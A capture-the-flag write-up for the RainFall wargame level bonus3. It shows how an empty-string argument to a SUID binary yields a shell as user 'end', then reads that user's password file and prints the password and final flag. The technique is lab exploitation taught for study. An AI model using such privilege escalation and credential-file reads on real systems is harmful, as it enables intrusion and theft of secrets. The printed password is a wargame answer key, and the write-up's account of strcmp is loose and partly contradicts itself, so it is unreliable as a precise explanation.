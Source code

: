 # Level bonus 3

## Vulnerability



## Context

We find a binary with owner ```end``` and SUID.
```
bonus3@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
When run with 1 argument, it prints a new line. Run with 0 or >1 arguments it does nothing.
```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 Yes!

bonus3@RainFall:~$ ./bonus3 No no
bonus3@RainFall:~$ ./bonus3 No no no
bonus3@RainFall:~$
```

## Solution

In summary, if you give the password for user ```end``` as argument to ```bonus3```, it opens a shell (well actually it segfaults).

But we don't know the password yet so...

Investigating with gdb we find just ```main()```. ```main()``` reads ```/home/user/end/.pass``` and copies into a buffer twice. Then ```strcmp()``` compares the buffer and argv[1], opening a shell if you have provided a matching password. However ```strcmp()``` will only read and compare as many bytes as len(argv[1]), so if we provide an empty string it returns 0, claiming the strings are the same (for as many bytes read).
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
